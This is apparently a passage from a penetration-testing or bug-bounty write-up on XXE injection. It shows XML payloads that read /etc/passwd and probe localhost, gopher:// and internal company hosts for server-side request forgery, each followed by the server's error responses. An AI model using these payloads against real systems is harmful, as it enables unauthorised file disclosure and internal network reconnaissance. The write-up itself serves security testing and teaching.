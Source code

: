 This indicates that the file exists and could be opened and read by the XML parser, but the contents of the file are not a valid Document Type Definition (DTD), so the parser fails and throws an error.


```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "file:///etc/passwdxxx"> %ext;
]>
<r></r>
```

```
The request is invalid: The request content was malformed:
/etc/passwdxxx (No such file or directory)
```

Lets Try Blind XXE thing

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://localhost:22/"> %ext;
]>
<r></r>
```

```
The request is invalid: The request content was malformed:
Invalid Http response
```

Not Critical but can be reported 

```
<?xml version="1.0" ?>
<!DOCTYPE root [ <!ENTITY % ext SYSTEM "gopher://localhost/"> %ext; ]>
<r></r>
```

```
The request is invalid: The request content was malformed:
unknown protocol: gopher
```

 found a number of internal resources that looked promising, e.g.:

wiki.company.internal
jira.company.internal
confluence.company.internal

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://wiki.company.internal/"> %ext;
]>
<r></r>
```
